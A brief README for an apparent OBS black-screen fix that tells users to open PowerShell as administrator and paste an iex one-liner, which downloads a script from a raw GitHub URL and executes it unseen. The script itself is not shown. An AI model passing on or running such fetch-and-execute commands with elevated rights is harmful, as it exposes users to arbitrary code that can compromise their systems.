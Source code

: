 # READ THIS BEFORE USING

If your OBS doesn't crash, but shows a black screen, try this script and there is a pretty high chance that this will help.
It's a full patch, so it moves all DLLs and such to where they have to be.

## Usage Instructions
- 1. Open 'Windows Powershell' with administrator privileges (MUST RUN AS ADMINISTRATOR OR IT WON'T WORK!)
- 2. Paste the following code into the command line: <br> <code> iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/BlueElixir/aimware-luas/main/OBS%20FIX/obs-fix.ps1')); </code>
- 3. Wait for the operation to finish

If everything went well, OBS will work too.
